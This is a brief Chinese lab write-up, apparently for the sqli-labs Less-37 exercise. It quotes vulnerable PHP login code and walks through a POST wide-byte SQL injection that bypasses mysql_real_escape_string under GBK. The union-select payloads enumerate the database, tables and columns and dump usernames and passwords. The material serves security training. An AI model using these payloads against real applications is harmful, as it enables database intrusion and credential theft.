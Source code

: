 ```yaml
---
title: less37
url: https://www.yuque.com/u29002979/ep2zrx/igsfnpppkch9092m
---
```


```bash
$uname = mysql_real_escape_string($uname1);
$passwd= mysql_real_escape_string($passwd1);

mysql_query("SET NAMES gbk");
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
```

> mysql\_real\_escape\_string

post型的宽字节注入 <a name="gLILH"></a>

# 宽字节注入

<a name="izUqu"></a>

## 判断字段数

`uname=**汉'** order by 3--+  `
2个字段 <a name="B0iQ5"></a>

## 回显点检查

`uname=汉' union select 1,2--+` <a name="kzUVz"></a>

## 信息收集

主要看用户,数据库版本&#x20;
`uname=汉' union select user(),version()--+`\ <a name="kzVJM"></a>

## 开始注入

```bash
爆破数据库名称
uname=汉' union select 1,database()--+

爆破数据库表名称
uname=汉' union select 1,group_concat(table_name)from information_schema.tables where table_schema=database()--+

爆破字段名称
users的16进制是0x7573657273
uname=汉' union select 1,group_concat(column_name)from information_schema.columns where table_schema=database() and table_name=0x7573657273--+

爆破字段内容
uname=汉' union select 1,(select group_concat(username,0x7e,password) from users)--+
```
